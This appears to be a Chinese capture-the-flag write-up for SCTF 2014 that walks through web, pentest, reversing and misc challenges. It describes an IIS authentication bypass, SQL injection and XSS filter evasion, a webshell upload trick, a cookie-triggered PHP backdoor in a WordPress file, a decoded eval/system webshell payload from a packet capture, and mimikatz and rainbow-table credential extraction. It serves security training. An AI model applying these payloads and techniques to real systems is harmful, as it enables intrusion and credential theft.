# SCTF-WriteUp

2014/12/09 12:26 | [EvilMoon](http://drops.wooyun.org/author/EvilMoon "由 EvilMoon 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## PT100

* * *

看到题面提示说 flag 在后台

输入 /admin/ 看到一个 HTTP Basic Authentication

既然是 CTF 肯定不可能是跑密码了，所以考虑其他情况。观察可知主页跑的是 PHP 。但是看 HTTP 头却是 IIS 。所以考虑是不是 短文件名之类的。搜索可得

```
http://www.freebuf.com/articles/4908.html 
```

注意到最后有这么一段

> ### 以下部分为其他报道较少提及的。
> 
> 还是这个短文件/文件夹名暴露漏洞， acunetix 研究指出当 Apache 运行在 windows 下，如果创建了一个长文件，那么无需猜解长文件，直接用短文件就可以下载了。例如一个 backup-082119f75623eb7abd7bf357698ff66c.sql 的长文件，其短文件是 BACKUP~1.SQL ，攻击者只需要提交 BACKUP~1.SQL 就可以直接访问该文件。原文
> 
> http://www.acunetix.com/blog/web-security-zone/articles/windows-short-8-3-filenames-web-security-problem/
> 
> 另外，Soroush Dalilide 研究中还提到可以绕过 Basic and Windows 认证，猜解认证目录下的文件。以下是 II5.0 绕过认证的方法：详细可见原文研究
> 
> http://soroush.secproject.com/blog/2010/07/iis5-1-directory-authentication-bypass-by-using-i30index_allocation/
> 
> "/AuthNeeded:$i30:$INDEX_ALLOCATION/secretfile.asp"
> 
> Instead of:
> 
> "/AuthNeeded/secretfile.asp"
> 
> 但是并不是所有版本的 IIS 都能够绕过认证。应该是在可绕过的前提下猜解，形式如下：
> 
> /AuthNeeded::$Index_Allocation/*~1*/.aspx
> 
> 或者
> 
> /AuthNeeded:$I30:$Index_Allocation/*~1*/.aspx

一开始尝试

```
/admin::$Index_Allocation/.htpasswd 
```

多次，未果。后来想这个是 IIS 可以在 IIS 那边设置，遂访问

```
/admin::$Index_Allocation/index.php 
```

得到一个登陆点，尝试

```
id=001'  return : WTF 
```

但是

```
id=0001' return : login failed 
```

可以大概猜测出，这个只能输入四个字节，且应该是个注入，四个字节注入想到 alictf 的 web100 将 or 转成 || 。尝试

```
'｜1＃ 
```

发现不行。。。后来纠结了很久，重新看了一遍自己输入的。。考虑了下，随手将 1 改成 0 。

Get Flag。。。

## PT200

* * *

看了下 source code 发现有个

```
index.php?name=xss 
```

然后在右上角有个链接可以提交语句，简单来看就是一个 xss 。然后试验了几个关键词，发现都过滤了。

比如

```
on|script|img 
```

等等

然后想要不先打后台吧，测试发现

```
<iframe> 
```

没有过滤，就打了个过去。但是想想也没 cookie 似乎也干不了什么。

后来官方给了 hint 说是不要 0day 已经有绕过了。遂 Google 。

```
http://parsec.me/13.html 
```

里面 import 一个外部 PHP ，但是如果直接打 cookie 不行，因为存在一个跨域问题，插个允许跨域的头就 ok 了。 然后打到后台，发现没 cookie 什么的。

再看另一个 hint 可知，有个 SQLi ，遂利用 heige ，在杭州说的思路，用 ajax 去获取信息，然后再回传。

猜测后发现存在 flag.php 然后总要有参数吧。

记得去年还是前年 syc 举办的一个比赛，注入也是要先输入一个 GET 参数

```
id=1 
```

这样之后得到一个地址。尝试

```
' 
and 1=1 
```

可看到，提示有安全狗。

前两天刚看到有人发了条微博，说 MySQL 新关键字， multipoint 什么的。

```
 https://rdot.org/forum/showthread.php?p=37133 
```

然后注入。

## PT400

* * *

官方给了个 wordpress 的 blog 看了下。没什么想法。

后来看到底部给了个链接

```
http://idc.sycsec.com 
```

就想反正 wordpress 不好搞。那就直接搞 idc 吧。（另：真实渗透中搞不搞 idc 主要还是看值不值得，看产入产出比。）

进入 idc 可以看到 download 有 pt300 的源码。可惜审错版本。。导致没做出来。

然后底部有个 bug 反馈

```
bug.php 
```

然后后来官方 hint SQLi 那就是 idc 有注入了，手测了下。

```
id=2 返回等于 id=4-2 
```

可以知道这有注入，然后但是发现应该是过滤了什么。

因为懒，所以我 SQLmap 的 tamper 一个个试过去，不巧第二个就成功了。看了下，发现是讲空格转换成 %0a 。

然后注入出后台管理员账号密码。

然后但是不知道后台啊，所以将注入 concat 出一个 xss 。从 bug 反馈那边打到后台。

（这里是吐槽：管理员的密码跑出不来。最后手抽去 Google 了一下才得到密码。）

进入后台后有上传点，尝试直接上传不成功，修改上传的包

```
text/php -> image/jpg 
```

发现可上传，但是其实没搞定。后来，百度了几个免杀 PHP 一句话之类的。发现，如果 PHP 标签不是

```
<?php ?> 
```

而是

```
<script language=php></script> 
```

就可以绕过。

然后应该是过滤了很多函数，尝试直接列目录和读文件，发现目录下有个 wordpress 的压缩包。赌五毛就是看压缩包日 blog 了。

然后根据时间将压缩包里的文件都列出来，发现

```
/wp-include/revision.php 
```

这个文件是最近修改过的， diff 了下官方版本的 wordpress 发现里面多了这么一段。

```
function wp_check_my_session(){ 
if(isset($_COOKIE['wp-ssesion'])) {
    $_check=($_COOKIE['wp-sesion'][0]^$_COOKIE['wp-sesion'][1]).
            ($_COOKIE['wp-sesion'][2]^$_COOKIE['wp-sesion'][3]).
            ($_COOKIE['wp-sesion'][4]^$_COOKIE['wp-sesion'][5]).
            ($_COOKIE['wp-sesion'][6]^$_COOKIE['wp-sesion'][7]).
            ($_COOKIE['wp-sesion'][8]^$_COOKIE['wp-sesion'][9]).
            ($_COOKIE['wp-sesion'][10]^$_COOKIE['wp-sesion'][11]);
    $_check($_COOKIE['wp-ssesion']);
}
else{
return 0;
}

```

看了眼应该是后门，用户可以自定义一个六位的函数并执行，第一反应是 system 。

然后就写了个程序，直接暴力跑了下所有的可能，随便拿了一个出来。屡次尝试后发现不成功。

然后发现，这里还是吐槽：其实 cookie 里是有两个不一样的变量的。。但是由于太像了，导致我只传了一个。

满心欢喜的去执行了，传了两个后发现，还是不行。。目测就是 system 函数被禁用了？

然后尝试 assert 函数。成功执行，翻文件后发现没有 flag 。最后直接连上数据库

Get FLag

## PT500

* * *

链接到三叶草花卉公司。

```
http://corp.sycsec.com 
```

可以看到给出了几个链接，还有个妹子的图片，在源码里还有妹子的邮箱。



从题面看，最终是要到 file 服务器找到那个种子。然后

```
PING file.sycsec.com (10.24.13.37): 56 data bytes
Request timeout for icmp_seq 0 
```

发现 file 服务器在内网，好了就是渗透了。



然后先到 report 服务器，看到时要用工号登陆，又说妹子来了就有 83 人了。易得，妹子的工号肯定就是

```
SYC083 
```

然后到公开的社工库查询下，发现在 csdn 泄漏了妹子的密码。用那个密码成功登陆 report 服务器。



然后有上传点，发现上传任何文件都会变成 lol 的后缀的文件。然后看了下上传的包，随手在文件名里面加了个 ' 发现报错了。

好了，目测就是文件名的注入了。注入得到每个人的账号密码，工号，公司邮箱。



噢，邮箱啊。那就是接下去要登陆 mail 服务器了。目测邮箱地址为

```
http://mail.sycsec.com 
```

好了，然后密码一个个试过去，发现

```
xiaoxi@sycsec.com 
```

可以登陆，发现里面有 vpn 服务器地址，还说了密码是工号加生日，



邮件里还说小美周末就生日了。



然后到

http://vpn.sycsec.com

用注入得到的小美的工号加生日（枚举了生日年份 90-99 ）发现小美密码是

SYC079940927



登陆 vpn 服务器后，访问

http://10.24.13.37/

到了 file 服务器，然后组合各种密码未果。尝试扫描目录，发现有个 files 目录。

既然是 files 服务器，而且是一个公司，那么肯定在 files 目录下有用用户名或者工号命名的目录，然后后面有文件。

然后尝试

```
http://10.24.13.37/files/SYC001 － SYC083/torrent 
```



Get Flag!

## code200

* * *

把数值转成二进制观察下就行了，直接贴代码吧。代码太挫，勿喷。

```
import string,socket

global answer,real_ans,flag,a_num

def check(answer_t,num):
    global real_ans
    money = [1, -2, 4, -8, 16, -32, 64, -128, 256, -512, 1024, -2048, 4096, -8192]
    for x in answer_t:
        num -= money[x]
    if num == 0:
        flag = 1
        real_ans = answer[:]
        return 1
    return 0

def odd(i):
    if i % 2 == 0:
        return False
    return True

def solv(num):

    global answer,real_ans
    if check(answer,a_num) == 1:
        return 0 
    bin_num = bin(num)

    if odd(abs(num)):
        num -= 1
        bin_num = bin(num)
        answer.append(0)
        if check(answer,a_num) == 1:
            return

    for x in xrange(2,len(bin_num)-1,2):
        if bin_num[-1*x] == '0' and bin_num[-1*x-1]== '1':
            answer.append(x)
            if solv(num-2**x) == 0:
                return 0

        if bin_num[-1*x] == '1' and bin_num[-1*x-1]== '1':
            answer.append(x-1)
            if solv(num+2**(x-1)) == 0:
                return 0

        if bin_num[-1*x] == '1' and \
          (bin_num[-1*x-1]== '0' or bin_num[-1*x-1]== 'b'):
            answer.append(x-1)
            if solv(num+2**(x-1)) == 0:
                return 0

def main():
    global answer,real_ans,flag,a_num
    io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    io.connect(('218.2.197.248',10007))
    res = ''
    rnd = 0

    while True:
        rnd += 1
        a_num = 0
        res = ''
        res = io.recv(1024)
        try:
            a_num = int(res)
        except:
            print '\n'+res
            break
        print '\n' + '-' * 10 + ' Round %d '%rnd + '-'*10
        print res
        flag = 0
        answer = []
        real_ans = []
        solv(a_num)
        s = ''
        if len(real_ans)>0:
            s = ' '.join([str(x) for x in real_ans[::-1]])
        print s
        io.sendall(s+'\n')

if __name__ == '__main__':
    main()

```

## RE50

* * *

送分题，就是没来得及看公告……使用 IDA64 分析，发现是对输入的字符串每一个字符右移 3 位，然后和字符串 Jr3gFud6n 进行比较看是否一致。





Python 脚本：

```
# -*- coding:utf-8 -*-
def getFlag():
    s = "n6duFg3rJ"[::-1]
    flag = []
    for ch in s:
        flag.append(chr(ord(ch)-3))
    return "".join(flag)

if __name__ == "__main__":
    raw_input("SCTF{%s}" % getFlag())
    # SCTF{Go0dCra3k}

```

## MISC100

* * *

对 bin 文件进行分析，发现在主框架中通过 signal 函数注册了几个信号，其中’2’,’4’,’6’,’8’分别用于控制下、左、上、右四个方向，SIGALRM 用于处理游戏的主要业务逻辑。至于 SIGTRAP，则是在 handler 里面留了个个 int 3 的断点，简单的反调试罢了，SIGTRAP 的信号处理逻辑为直接执行一个空函数。



所以我们可以写一个程序，通过发送信号的方式来控制按键。Linux 下 C 语言可以使用 kill 函数对指定的 pid 发送信号，而 pid 则可以通过执行命令得到（ps/grep/awk），为了完美接收键盘控制信息，我这里使用了 curses 来接收按键操作，这样直接按方向键就好了。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curses.h>
#include <sys/types.h>
#include <signal.h>

int getPid()
{
    FILE *fp = NULL;
    fp = popen("ps -e|grep \'snake\'|awk \'{print $1}\'", "r");
    int pid = -1;
    if (EOF == fscanf(fp, "%d", &pid)) pid = -1;
    pclose(fp);
    return pid;
}

int main(int argc, char** argv)
{
    int ch;
    int pid = -1;

    while (pid == -1) pid = getPid();
    printf("pid = %d\n", pid);
    initscr();
    cbreak();
    noecho();
    keypad(stdscr, true);
    while (1)
    {
        ch = getch();
        if (ch == KEY_UP) ch = '8';
        else if (ch == KEY_DOWN) ch = '2';
        else if (ch == KEY_LEFT) ch = '4';
        else if (ch == KEY_RIGHT) ch = '6';
        kill(pid, ch);
    }
    endwin();

    return 0;
}
/*
    g++ -o ctrl ctrl.cpp -lncurses
    U0NURntzMWduNGxfMXNfZnVubnk6KX0=
    SCTF{s1gn4l_1s_funny:)}
*/

```

MISC300

从编号为 16 的数据包中找到一个 Encryption Key 为 1122334455667788，于是 Google 一下关键字“SMB 1122334455667788 密码”，点点点来到看雪的一个帖子 http://bbs.pediy.com/showthread.php?t=176189，学习一下。



以及 Unicode Password，如下图所示：



参照看雪论坛的帖子，新进行如下操作：

Step 1: 彩虹表跑起来

* * *

从 ftp://freerainbowtables.mirror.garr.it/mirrors/freerainbowtables/RTI2/halflmchall/下载彩虹表，还好网速快，哗啦啦就把第一个文件夹的 4GB 多的彩虹表下好了。然后从 http://sourceforge.net/projects/rcracki/下载 rcracki 程序，执行如下命令： rcracki_mt.exe -h 9e94258a03356914 D:\Downloads\rainbow

很快就看到了结果，如图所示：



第一步搞定，这里得到的结果为：

9e94258a03356914 NETLMIS hex:4e45544c4d495

Step 2: Perl 脚本跑起来

* * *

这里卡了一会，因为看雪的帖子并没有说 John 文件是如何构造的，他那个是 Metasploit 自动生成的，所以我又翻了好几个帖子，最后构造了这样一个文件：

user::domain:9e94258a03356914b15929fa1d2e290fab9c8f9f01999448:013f3cb06ba848f98a6ae6cb4a76477c5ba4e45cda73b475:1122334455667788

然后去 Kali 下的 metasploit-framework 下跑 netntlm.pl 脚本：

winson@kali:/usr/share/metasploit-framework/data/john/run.linux.x64.mmx$

sudo perl ./netntlm.pl --seed "NETLMIS" --file /tmp/john_netntlm

跑完第一遍得到 NETLMIS666，这个是不区分大小写的，我们还需要跑第二遍，第二遍得到 NetLMis666，因此 Flag 为 SCTF{NetLMis666}。

## MISC400A

* * *

Wireshark 打开 pcap 文件，输入过滤器“tcp contains ".rar"”，发现一个编号为 10192 的 POST 数据包，参数经过 Unescape 解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7&z1=C:\\inetpub\\wwwroot\\backup\\wwwroot.rar 
```

其中 z0 参数经过 Base64 解码后得到：

```
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");if(@fgetc($fp)){@fclose($fp);@readfile($F);}else{echo("ERROR:// Can Not Read");};echo("|<-");die(); 
```

可以知道这里是读取了 wwwroot.rar 这个压缩包文件，在 Wireshark 将 Rar 给 Dump 出来，解压发现需要密码。因为 rar 文件比较大，所以 10192 附近有很多 TCP 的数据包，所以我们使用过滤器“http”进行筛选之后再观察 10192 附近的数据包，发现了很多 POST 数据包。

从 10192 开始，往上一个一个的看 POST 数据包，发现编号 9997 的数据包参数经过 Unescape 解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJkM6XHByb2dyYX4xXFdpblJBUlxyYXIgYSBDOlxJbmV0cHViXHd3d3Jvb3RcYmFja3VwXHd3d3Jvb3QucmFyIEM6XEluZXRwdWJcd3d3cm9vdFxiYWNrdXBcMS5naWYgLWhwSkpCb29tJmVjaG8gW1NdJmNkJmVjaG8gW0Vd 
```

对参数进行 Base64 解码得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();&z1=cmd&z2=cd /d "c:\inetpub\wwwroot\"&C:\progra~1\WinRAR\rar a C:\Inetpub\wwwroot\backup\wwwroot.rar C:\Inetpub\wwwroot\backup\1.gif -hpJJBoom&echo [S]&cd&echo [E] 
```

其中 hp 后面的 JJBoom 就是压缩包的密码了，解压得到一个 1.gif 文件，trid 鉴定一下，发现是个 Minidump 文件：



将后缀改成 mdmp 之后，使用 Visual Studio 打开看了下，发现是 lsass.exe 进程的 Dump 文件，如下图所示：



Google 一下关键字“lsass dump 密码”，就看到了 mimikatz，所以根据经验这就是通过 mimikatz 来读取密码了，打开 mimikatz，然后输入如下命令：

> sekurlsa::minidump 1.mdmp
> 
> sekurlsa::logonPasswords

就能看到分析出来的密码了，密码处显示<tab><space>，如下图所示：</space></tab>



于是提交了一下尝试：

SCTF{<tab><space>} SCTF{ } （TAB+空格）</space></tab>

发现都不对，然后又去反查 NTLM 发现查不到，最后自己在 XP 下测试了一下，发现密码中是不能有空格的，然后空格就是空格，也不会显示成<space>，当然在命令行下也看不出来有空格，所以只能猜测<tab></tab></space><space>后面是有空格了，试了几个发现也不对，就把输出重定向到文件里：</space>



打开文件就能看到密码了，所以 Flag 为 SCTF{ <tab><space>}。</space></tab>

## CODE400

* * *

题目所给的原始代码如下：

```
import json
import hashlib
import os
import base64
from Crypto.Cipher import AES

fp = open("secret.json", "r")
secret = json.load(fp)
fp.close()

if type(secret["the answer to life the universe and everything"]) != type(u"77"):
    destroy_the_universe()

answer = hashlib.sha1(secret["the answer to life the universe and everything"]).hexdigest()[0:16]
key = hashlib.sha1(secret["Don't google what it is"]).digest()[0:6]

if ord(key[4])*(ord(key[5])-5) != 17557:
    destroy_the_universe()

keys = ["hey"+key[2]+"check"+key[3]+"it"+key[0]+"out", 
        "come"+key[1]+"on"+key[4]+"baby"+key[5]+"~~!"]
answer = AES.new(keys[1],AES.MODE_ECB).encrypt(
                AES.new(keys[0], AES.MODE_ECB).encrypt(answer))

if base64.b64encode(answer) == "fm2knkCBHPuhCQHYE3spag==":
    fp = open("%s.txt" % hashlib.sha256(key).hexdigest(), "w")
    fp.write(secret["The entrance to the new world"])
    fp.close()

```

第一个 if 语句也真是个坑，Google 一下"the answer to life the universe and everything"得到的是 42，然后后面也必须用 42，不然就算不出结果，这里居然写成 77？

第二个 if 语句，我们可以计算出有 97*181=17557，代码如下：

def break_multiply(dst=17557): for i in xrange(0, dst+1): for j in xrange(i, dst+1): if i * j == dst: print "%d * %d = %d" % (i, j, dst)

那么 key[4](http://drops.wooyun.org/wp-content/uploads/2014/12/file00023_png.jpg)和 key[5](http://drops.wooyun.org/wp-content/uploads/2014/12/file00032_png.jpg)会存在两种情况(97,186)，(181,102)。

之后就是加密处理了，加密逻辑为：使用 keys[0]对 answer 进行 AES 加密得到中间结果 TMP，然后使用 keys[1](http://drops.wooyun.org/wp-content/uploads/2014/12/file00012_png.jpg)对 TMP 进行 AES 加密得到结果 RES，对 RES 进行 Base64 编码得到 fm2knkCBHPuhCQHYE3spag==。

那么我们就可以开始爆破了，其中 keys[1](http://drops.wooyun.org/wp-content/uploads/2014/12/file00012_png.jpg)存在 512 种情况，所以稍微优化一下我们可以使用 keys[1](http://drops.wooyun.org/wp-content/uploads/2014/12/file00012_png.jpg)对加密结果进行 AES 解密，然后使用一个 list 保存这 512 种可能的中间结果，然后跑一个 256*256*256 的三重循环破解 keys[0]，代码如下：

```
# -*- coding:utf-8 -*-

import hashlib
import base64
from Crypto.Cipher import AES

def genkey1():
    res = []
    for i in xrange(0, 256):
        res.append("come"+chr(i)+"on"+chr(181)+
                     "baby"+chr(102)+"~~!")
        res.append("come"+chr(i)+"on"+chr(97)+
                     "baby"+chr(186)+"~~!")
    return res

def genkey0():
    res = []
    for i in xrange(0, 256):
        for j in xrange(0, 256):
            for k in xrange(0, 256):
                res.append("hey"+chr(i)+"check"+
                             chr(j)+"it"+chr(k)+"out")
    return res

def getkey1(key0):
    answer = hashlib.sha1(u"42").hexdigest()[0:16]
    tmp = AES.new(key0, AES.MODE_ECB).encrypt(answer)
    final_answer = base64.b64decode("fm2knkCBHPuhCQHYE3spag==")
    for i in xrange(0, 256):
        key1 = "come"+chr(i)+"on"+chr(181)+"baby"+chr(102)+"~~!"
        if tmp == AES.new(key1, AES.MODE_ECB).decrypt(
                             final_answer):
            print "key1: " + repr(key1)
            return
        key1 = "come"+chr(i)+"on"+chr(97)+"baby"+chr(186)+"~~!"
        if tmp == AES.new(key1, AES.MODE_ECB).decrypt(
                             final_answer):
            print "key1: " + repr(key1)
            return

def crack():
    keys0 = genkey0() # 256**3
    keys1 = genkey1() # 512
    answer = hashlib.sha1(u"42").hexdigest()[0:16]
    final_answer = base64.b64decode("fm2knkCBHPuhCQHYE3spag==")
    tmp_res = []
